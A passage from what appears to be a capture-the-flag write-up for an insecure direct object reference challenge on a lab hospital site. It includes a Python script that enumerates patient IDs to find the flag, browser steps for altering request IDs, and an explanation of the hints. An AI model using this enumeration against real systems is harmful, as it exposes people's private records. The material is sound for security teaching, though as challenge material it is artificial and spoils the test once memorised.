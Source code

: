 
## Alternative Methods

### Method A: Enumeration Script

If you want to find all accessible patient IDs:

```python
import requests

base_url = "https://hospital.cyberlab.local/api/patients/"

for patient_id in range(1, 1000):
    response = requests.get(f"{base_url}{patient_id}")
    if response.status_code == 200:
        print(f"[+] Patient {patient_id}: {response.json().get('name')}")
        if 'CTF Flag' in str(response.json()):
            print(f"[!] FLAG FOUND in patient {patient_id}!")
            print(response.json())
```

### Method B: Using Developer Tools

1. Open Browser Developer Tools (F12)
2. Go to Network tab
3. Browse the hospital website normally
4. Look for API calls to `/patients/` or similar
5. Right-click on a request → "Edit and Resend"
6. Change the patient ID to 999
7. View the response

---

## Tools Used

- **Web Browser** - Manual testing
- **curl** - Command-line HTTP requests
- **Burp Suite** - Intercepting and modifying requests (optional)
- **Python requests** - Automation (optional)

---

## Hints Explanation

**Hint 1** (0 points): "Try accessing patient records with different IDs..."
- Tells you to try URLs like `/patients/999`

**Hint 2** (25 points): "IDOR vulnerabilities occur when..."
- Explains the vulnerability type

**Hint 3** (50 points): "Look in the medical notes field..."
- Tells you exactly where the flag is

---